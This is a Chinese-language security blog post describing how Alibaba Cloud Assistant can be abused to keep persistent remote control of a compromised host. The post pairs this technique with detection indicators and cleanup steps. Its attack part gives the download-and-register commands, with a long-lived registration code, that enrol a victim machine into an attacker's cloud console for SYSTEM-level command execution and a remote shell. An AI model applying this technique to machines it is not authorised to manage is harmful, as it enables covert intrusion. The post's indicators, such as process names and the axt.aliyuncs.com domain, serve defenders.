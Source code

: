 # 022-Ali云助手权限维持




## Ali云助手权限维持

## 简介

**云助手**是专为云服务器 ECS 打造的原生自动化运维工具，通过免密码、免登录、无需使用跳板机的形式，在 ECS 实例上实现批量运维、执行命令（Shell、PowerShell、Bat等）和发送文件等操作。

典型的使用场景包括：安装卸载软件、启动或停止服务、分发配置文件和执行一般的命令（或脚本）等。

但实际上也可以针对终端主机进行远程运维，因此可以用于实现权限维持。

&gt; 官方文档：
&gt;
&gt; https://help.aliyun.com/zh/ecs/user-guide/overview-10

## 利用

1、打开阿里云控制台，依次找到 产品与服务 -&gt; 云服务器 ECS -&gt; 运维与监控 -&gt; 发送命令/文件（云助手） -&gt; 托管实例 -&gt; 创建注册码：

![image-20250722015758523](resource/index.assets/image-20250722015758523.png)

2、输入配置信息，包括如下内容：

- 实例名称前缀

  默认的实例名称。默认使用 hostname 作为实例名称。 若设置，则使用该注册码所注册的实例，将使用该名称作为前辍生成有序的实例名； 也可以在注册时指定新的实例名称以覆盖此默认值。

  只可包含特殊字符中的点号（.）、下划线（_）、连字符（-）和半角冒号（:）

- 来源IP限制：

  待注册的主机的访问互联网时的公网IP或IP范围，支持 IPv4、IPv6和CIDR地址段。

  仅在主机注册阶段进行校验。

- 激活数额度：

  注册码可激活的实例数，即此注册码最多可用于注册的次数。默认值10，最多可支持1000台。

- 有效期：

  注册码的有效期，默认4小时，可选范围 1～876576小时（约100年，半永久:laughing:  ）。

  超出有效期后，该注册码不可用于注册新的主机。

3、点击生成注册码

当生成注册码后，会在下方显示实例注册的命令脚本内容。该注册码内容只显示一次，因此需要保存此注册码唯一ID与内容。

支持Linux 和Windows :

**Linux(.rpm)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.rpm
sudo rpm -ivh aliyun_assist_latest.rpm --force 
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxL47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxxD244E7&#34;
```

**Linux(.deb)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.deb
sudo dpkg -i aliyun_assist_latest.deb
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxx47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxx3D244E7&#34;
```

**Windows**

```powershell
Invoke-WebRequest -Uri `
&#39;https://aliyun-client-assist.oss-accelerate.aliyuncs.com/windows/aliyun_agent_latest_setup.exe&#39; `
-OutFile &#39;C:\\aliyun_agent_latest_setup.exe&#39;
&amp;&#34;C:\\aliyun_agent_latest_setup.exe&#34; &#39;/S&#39; &#39;--register&#39; `
&#39;--RegionId=&#34;cn-hangzhou&#34;&#39; &#39;--ActivationCode=&#34;a-hz012xxxxvttL47fD/f&#34;&#39; `
&#39;--ActivationId=&#34;1DA9xxxxx244E7&#34;&#39;
```

生成的注册码中的关键参数就是 ActivationId值 和 ActivationCode值，Id和Code互相相互对应，可点击 “注册新实例” 处，查看过去建立生成的 ActivationId 值，但 ActivationCode值不可查。

![image-20250722015839420](resource/index.assets/image-20250722015839420.png)

![image-20250722015852466](resource/index.assets/image-20250722015852466.png)



使用阿里云给出的命令下载云助手agent，可能会出现权限不足的情况，需要将文件输出在当前用户可写的路径下。

![image-20250722015928880](resource/index.assets/image-20250722015928880.png)

第一段命令为下载云助手Agent，需要等待一段时间，也可以通过其他方式投递。

第二段命令为云助手Agent注册上线ECS云助手控制端。

在目标机器上运行相应脚本，执行完之后需要刷新或者重新打开一个标签页，即可展示结果：

![image-20250722015943005](resource/index.assets/image-20250722015943005.png)

执行命令相当于创建一个脚本，依次去执行；

远程登录即类似ECS，开启一个Web形式的终端

![image-20250722015958289](resource/index.assets/image-20250722015958289.png)

可以看到登录后即为system权限。



目前发现一些问题：

1. 云助手Agent执行时有 UAC认证；
2. Powershell执行命令下载文件时，需要等待。
3. 在Windows Arm上会被识别为Ubuntu
4. 只适合命令控制，传输文件大小有限制，上传的文件原始大小不大于24KB，且经过Base64编码后的文件不能大于32KB。因此更适合与命令控制和权限维持。
5. 一条命令中，自定义参数的个数不能超过20个



## 排查

**云助手Agent**：

运行云助手后，Windows系统上会有一个 aliyun_agent的进程和一个AliyunService服务，该进程服务会开机自启。

![image-20250722020015817](resource/index.assets/image-20250722020015817.png)

![image-20250722020030888](resource/index.assets/image-20250722020030888.png)

**云助手守护进程：**

本地结束该进程后，远程连接即可终端。未发现进程保护等动作。

![image-20250722020056641](resource/index.assets/image-20250722020056641.png)

![image-20250722020106861](resource/index.assets/image-20250722020106861.png)

查了文档发现其实有守护进程，只是目前仅支持Linux操作系统。

云助手守护进程，用于监控云助手Agent的资源消耗情况，上报云助手Agent的运行状态，以及当云助手Agent崩溃时重启云助手Agent。

- 服务名称：`AssistDaemon`
- 路径：`/usr/local/share/assist-daemon/assist_daemon`

**任务执行路径：**

云助手会将用户的命令内容以文件形式先保存到实例上，然后再执行文件，具体保存路径如下：

- Linux：/tmp

- Windows：云助手安装路径/work/script

**通信流量：**

本地Agent上线后会先对域名进行解析，根据命令行中`--RegionId=&#34;cn-hangzhou&#34;`的键值，会寻找相应的节点，这里就是`cn-hangzhou.axt.aliyuncs.com`。

![image-20250722020124953](resource/index.assets/image-20250722020124953.png)

从TLS协议握手过程可以看到Server Name为`cn-hangzhou.axt.aliyuncs.com`，接下去所走的流量都是TLS加密流量。

![image-20250722020134447](resource/index.assets/image-20250722020134447.png)



## 特征：

1. 检测阿里云助手官方程序，确认是否本人安装
2. 域名：aliyun-client-assist.oss-accelerate.aliyuncs.com，用于下载云助手Agent程序，可被绕过通过其他方式投递。
3. 通信流量，DNS解析记录有`*.axt.aliyuncs.com`，TLS Client Hello 证书握手时Server Name是`*.axt.aliyuncs.com`
4. 进程名：aliyun_agent，服务名：Aliyun Assist Service
5. Linux系统守护进程：AssistDaemon

天眼分析中心日志检测，SSL加密协商：`server_name: (*.axt.aliyuncs.com)`

## 处置

1. 杀进程，关闭服务
2. 删除被非法安装的Ali云助手
3. 排查其他权限维持动作并清除。
4. 增加流量侧和终端侧检测，标记md5和域名。



## 参考文章：

https://mp.weixin.qq.com/s/-JqzD_F_5CqdwZAyhEBU8g

---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/022-ali%E4%BA%91%E5%8A%A9%E6%89%8B%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/  

